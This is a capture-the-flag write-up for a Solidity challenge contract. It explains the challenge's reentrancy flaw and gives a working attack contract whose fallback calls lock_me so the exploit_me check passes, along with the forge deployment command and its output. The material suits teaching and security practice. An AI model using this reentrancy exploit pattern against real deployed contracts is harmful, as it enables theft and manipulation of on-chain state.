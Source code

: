 # Task

1) The goal of this challenge is to be able to add your address to the array of winners.
2) Make the getAllwiners function incude your name in the array of winners.

# Contract Address
  
0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249

# Contract

```sol
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.13;

contract Challenge {
    address owner;
    address[] public winners;
    mapping(address => bool) public HasInteracted;
    mapping(address => string) public Names;
    bool lock;
    bool isPause;

    constructor() {
        owner = msg.sender;
    }

    function exploit_me(string memory _name) public {
        require(!isPause);
        lock = false;

        msg.sender.call("");

        require(lock);
        require(
            HasInteracted[msg.sender] == false,
            "This address has interacted before"
        );

        HasInteracted[msg.sender] = true;
        winners.push(tx.origin);
        string memory name_ = Names[tx.origin];
        require(
            keccak256(abi.encode(name_)) == keccak256(abi.encode("")),
            "Not a unique winner"
        );
        Names[tx.origin] = _name;
    }

    function lock_me() public {
        lock = true;
    }

    function pause(bool _status) external {
        require(msg.sender == owner);
        isPause = _status;
    }

    function getAllwiners() external view returns (string[] memory _names) {
        _names = new string[](winners.length);
        for (uint i; i < winners.length; i++) {
            _names[i] = Names[winners[i]];
        }
    }
}
```
### Key Observations

1. **Pause and Lock Mechanisms**: The function `exploit_me` requires `isPause` to be `false`. Additionally, the `lock` variable is set to `false` at the beginning of the function, which must be changed to `true` for the function to proceed, achieved through calling `lock_me`.
    
2. **Reentrancy Vulnerability**: `msg.sender.call("")` is an external call that allows reentrancy. In this case, you could call `lock_me` within a fallback function to set `lock` to `true`, enabling the rest of the function's execution.
    
3. **Unique Winner Condition**: The function ensures that only unique addresses are added as winners by checking if the name is empty in the `Names` mapping. This prevents duplicate entries.

Since we've identified the vulnerability, lets cook our attack contract

# Attack Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "../src/winner.sol";

contract attackWinner {
    bool public toggle;
    Challenge public attack;

    constructor(address _targetaddr) {
        attack = Challenge(_targetaddr);
    }

    function bankai(string memory _name) external {
        attack.exploit_me(_name);
    }

    fallback() external payable {
        if (!toggle) {
            toggle = true;
            attack.lock_me();
        }
    }


}
```
The `attackWinner` contract exploits a reentrancy vulnerability in the `Challenge` contract by using a fallback function. Here’s a concise breakdown:

1. **`attackWinner` Constructor**: Initializes the contract with the address of the target `Challenge` contract.
    
2. **`bankai` Function**: Calls `exploit_me` on `Challenge`, passing a name to start the exploit.
    
3. **Fallback Function**: Triggered during reentrancy, it toggles `lock` in the `Challenge` contract by calling `lock_me`, bypassing a security check in `exploit_me`.
    

In summary, `attackWinner` uses reentrancy to manipulate `lock` in `Challenge`, allowing it to add itself to the winners list in `Challenge`.

Lets deploy the attack contract using foundry forge

```
┌──(bl4ck4non💀bl4ck4non-sec)-[~/Documents/web3/foundry/learninggg_foundryyyy]
└─$ forge create --private-key $PRIVATE_KEY src/attackWinner.sol:attackWinner --constructor-args "0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249" 
[⠊] Compiling...
No files changed, compilation skipped
Deployer: 0x296f076DB25846579300E2F89aCBC20bcd96fd3c
Deployed to: 0x1BfEF0b68F985a26aDB235afA2Ab86514f6DeDC8
Transaction hash: 0x650f0540f8ab4636da94695032be758ae909ca136cad42ec4d55b0472cc9ebac
```

![image](https://github.com/user-attachments/assets/0077e574-ab0a-423e-aa56-60cbe4ae24b4)

Now, lets call the `getAllwiners()` function

![image](https://github.com/user-attachments/assets/65a0b6cb-b295-414c-8a1a-f5b9527287ef)

As you can see from the above screenshot my name `:xD` is included in the array of winners

This challenge has been successfully completed

---------------------------

Till Next Time :xD






















